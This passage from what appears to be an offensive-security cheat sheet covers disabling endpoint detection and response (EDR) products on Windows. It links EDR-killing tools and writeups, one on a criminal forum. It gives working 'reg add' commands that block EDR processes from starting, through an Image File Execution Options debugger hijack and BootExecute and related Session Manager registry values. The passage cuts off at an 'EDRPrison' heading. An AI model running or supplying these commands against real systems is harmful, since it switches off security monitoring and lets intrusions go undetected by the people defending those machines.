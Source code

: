 - `C:\Windows\System32\LogFiles\`
- `C:\Windows\System32\inetsrv\`
- `C:\Windows\ClusterStorage\`
- `C:\ProgramData\Microsoft\Windows\Hyper-V\`




## Attacking EDRs

- [https://mansk1es.gitbook.io/edr-binary-abuse/](https://mansk1es.gitbook.io/edr-binary-abuse/)
- [https://xss.is/threads/67718/](https://xss.is/threads/67718/)
- [https://www.safebreach.com/blog/dark-side-of-edr-offensive-tool/](https://www.safebreach.com/blog/dark-side-of-edr-offensive-tool/)
- [https://www.alteredsecurity.com/post/when-the-hunter-becomes-the-hunted-using-custom-callbacks-to-disable-edrs](https://www.alteredsecurity.com/post/when-the-hunter-becomes-the-hunted-using-custom-callbacks-to-disable-edrs)
- [https://beierle.win/2024-12-20-Weaponizing-WDAC-Killing-the-Dreams-of-EDR/](https://beierle.win/2024-12-20-Weaponizing-WDAC-Killing-the-Dreams-of-EDR/)
- [https://github.com/arosenmund/defcon33_silence_kill_edr](https://github.com/arosenmund/defcon33_silence_kill_edr)

**Hard-style** launch prevention using [IFEO](https://learn.microsoft.com/en-us/previous-versions/windows/desktop/xperf/image-file-execution-options):

```
Cmd > reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\<EDR_IMAGE.exe>" /t REG_SZ /v Debugger /d "C:\Windows\System32\rundll32.exe" /f
```

**Hard-style** launch prevention using [BootExecute](https://github.com/rad9800/BootExecuteEDR):

```
Cmd > reg add "HKLM\SYSTEM\CurrentControlSet\Control\Session Manager" /v "BootExecute" /t REG_MULTI_SZ /d "autocheck autochk *\0BEB" /f
Cmd > reg add "HKLM\SYSTEM\CurrentControlSet\Control\Session Manager" /v "BootExecuteNoPnpSync" /t REG_MULTI_SZ /d "BEB" /f
Cmd > reg add "HKLM\SYSTEM\CurrentControlSet\Control\Session Manager" /v "SetupExecute" /t REG_MULTI_SZ /d "BEB" /f
Cmd > reg add "HKLM\SYSTEM\CurrentControlSet\Control\Session Manager" /v "PlatformExecute" /t REG_MULTI_SZ /d "BEB" /f
```



### WFP-Based Prisons

- [https://www.mdsec.co.uk/2023/09/nighthawk-0-2-6-three-wise-monkeys/](https://www.mdsec.co.uk/2023/09/nighthawk-0-2-6-three-wise-monkeys/)


#### EDRSilencer

- [https://github.com/netero1010/EDRSilencer/tree/main](https://github.com/netero1010/EDRSilencer/tree/main)


#### EDRPrison
